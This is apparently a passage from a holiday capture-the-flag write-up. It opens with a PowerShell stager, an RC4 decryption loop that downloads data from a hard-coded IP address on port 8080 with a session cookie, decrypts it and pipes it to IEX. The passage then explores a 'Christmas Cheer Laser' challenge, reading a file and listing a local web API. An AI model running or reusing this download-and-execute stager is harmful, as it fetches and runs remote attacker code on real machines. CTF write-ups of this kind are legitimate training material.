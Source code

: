 ```powershell
        $S[$_], $S[$J] = $S[$J], $S[$_]
    };
    $D|% {
        $I = ($I + 1)%256;
        $H = ($H + $S[$I])%256;
        $S[$I], $S[$H] = $S[$H], $S[$I];
        $_ -BXoR$S[($S[$I] + $S[$H])%256] # change it to -BXoR
    }

};
$ser = 'http://144.202.46.214:8080';
$t = '/admin/get.php';
$WC.HEADErs.Add("Cookie", "session=reT9XQAl0EMJnxukEZy/7MS70X4=");
$DATa = $WC.DownlOADDAtA($sEr + $T);
$Iv = $DatA[0..3];
$DatA = $dATa[4..$DatA.lENGtH];
 -JOIN[ChaR[]](& $R $DatA ($IV + $K))|IEX
```

# Xmas Cheer Laser - Sparkle Redberry
What is at `/home/callingcard.txt.`?

```
PS /home/elf> gc ../callingcard.txt
What's become of your dear laser?
Fa la la la la, la la la la
Seems you can't now seem to raise her!
Fa la la la la, la la la la
Could commands hold riddles in hist'ry?
Fa la la la la, la la la la
Nay! You'll ever suffer myst'ry!
Fa la la la la, la la la la
```

What is at `localhost:1225`?

```html
PS /home/elf> (Invoke-WebRequest -Uri http://localhost:1225/).RawContent
HTTP/1.1 200 OK                                                                           
Server: Microsoft-NetCore/2.0                                                             
Date: Thu, 12 Dec 2019 08:10:51 GMT                                                       
Content-Length: 860                                                                       

<html>
<body>
<pre>
----------------------------------------------------
Christmas Cheer Laser Project Web API
----------------------------------------------------
Turn the laser on/off:
GET http://localhost:1225/api/on
GET http://localhost:1225/api/off

Check the current Mega-Jollies of laser output
GET http://localhost:1225/api/output

Change the lense refraction value (1.0 - 2.0):
GET http://localhost:1225/api/refraction?val=1.0

Change laser temperature in degrees Celsius:
GET http://localhost:1225/api/temperature?val=-10

Change the mirror angle value (0 - 359):
GET http://localhost:1225/api/angle?val=45.1
```